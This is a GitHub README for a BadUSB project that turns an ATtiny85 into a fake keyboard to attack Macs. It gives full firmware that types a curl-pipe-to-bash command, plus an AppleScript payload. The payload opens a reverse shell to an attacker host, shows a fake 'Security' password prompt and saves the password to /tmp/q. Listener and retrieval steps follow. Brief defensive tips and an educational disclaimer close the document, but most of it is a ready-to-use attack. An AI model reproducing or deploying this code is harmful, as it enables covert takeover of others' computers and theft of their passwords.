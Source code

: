 # BadUSB Mac Attack

This repository documents a security research project demonstrating how a modified ATtiny85 microcontroller can be used to create a BadUSB device that targets macOS systems. **This project is for educational and research purposes only**.

## Overview

This project demonstrates a social engineering attack vector using a USB device that masquerades as a regular keyboard (HID - Human Interface Device). When connected to a target Mac, it automatically:

1. Opens Terminal via Spotlight
2. Executes a curl command that downloads and runs a script from a shortened URL
3. Creates a fake authentication dialog that mimics macOS system prompts
4. Captures the user's password
5. Opens a reverse shell (backdoor) to the attacker's machine

## Components

### 1. Hardware

- ATtiny85 microcontroller programmed as a USB HID device
- Compatible with various development boards like DigiSpark

### 2. DigiKeyboard Code

```cpp
#include "DigiKeyboard.h"

void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(250); // Wait until the USB is recognized

    // Open Terminal on macOS
    DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);  // ⌘ + Space (Spotlight)
    DigiKeyboard.delay(500);
    DigiKeyboard.print("Terminal");
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(1000);  // Wait until Terminal is open
   
    // Short URL
    DigiKeyboard.print("curl -sL <short_url> | bash & disown; exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {
    // Do nothing
}
```

### 3. Payload Script

This is the content that gets downloaded and executed from the shortened URL:

```bash
osascript -e '
do shell script "bash -i >& /dev/tcp/<remote system>/8080 0>&1 &"
set userInput to (display dialog "Do not enter password:" default answer "" with hidden answer with icon POSIX file "/System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/LockedIcon.icns" with title "Security" buttons {"pwnd"} default button "pwnd")
set q to text returned of userInput
do shell script "echo " & quoted form of q & " > /tmp/q"
do shell script "clear"' & disown; exit
```

## System Setup

This attack involves two separate computer systems:

1. **Target System**: The Mac computer where the BadUSB is inserted
2. **Remote/Attacker System**: A separate computer controlled by the attacker that receives the connection and captured credentials

## How It Works

1. **Preparation**: Before the attack, the attacker sets up a listener on their remote system using `nc -lv 8080`
2. **Initial Connection**: When the BadUSB is connected to the target Mac, it is recognized as a standard keyboard
3. **Terminal Launch**: The device automatically opens Terminal via Spotlight search
4. **Payload Execution**: 
   - It types and executes a curl command that downloads the malicious script from a shortened URL
   - Using a shortened URL (https://surl.li/en) keeps the typed command brief, reducing execution time
   - The full payload is ~400 characters, which would be noticeable if typed directly
5. **Backdoor Creation**: The script establishes a reverse shell from the target Mac to the attacker's remote system (remote system IP) on port 8080
6. **Password Phishing**: A fake authentication dialog appears on the target Mac, tricking the user into entering their password
7. **Credential Theft**: The entered password is saved to `/tmp/q` on the target Mac
8. **Remote Access**: The attacker now has shell access to the target Mac via the established connection
9. **Password Retrieval**: The attacker can access the captured password by examining the `/tmp/q` file on the target Mac through the backdoor connection
10. **Terminal Cleanup**: The terminal on the target Mac is cleared to hide evidence of the attack

## Remote System Setup

Before inserting the BadUSB into the target system, the attacker must prepare their remote system:

1. Ensure the remote system is on the same network as the target will be, or has a public IP accessible to the target
2. Set up a listener to receive the reverse shell connection:

```bash
nc -lv 8080
```

3. When the BadUSB is connected to the target Mac and the script executes successfully, the attacker will automatically gain remote access to the target system through this listener
4. Once the connection is established, the attacker can view the captured password by running:

```bash
cat /tmp/q
```

This will display the password that was entered by the target user in the fake authentication dialog.

## Security Implications

This project demonstrates several security vulnerabilities:

1. **Physical Access Risks**: Even brief physical access to a system can lead to compromise
2. **Trust in USB Devices**: Systems implicitly trust connected USB devices
3. **Social Engineering**: Users may enter credentials into convincing system dialogs
4. **Shortened URLs**: They obscure the actual destination and payload content

## Defensive Measures

To protect against this type of attack:

1. Use USB data blockers for charging from untrusted sources
2. Enable USB Restricted Mode where available
3. Be suspicious of unexpected system password prompts

## Legal Disclaimer

This project is published for **educational and research purposes only**. The author do not condone the use of this software for malicious purposes. Unauthorized access to computer systems is illegal and unethical. Always obtain proper authorization before security testing.

## Contribution

Feel free to contribute to this project by submitting pull requests or opening issues for discussion.
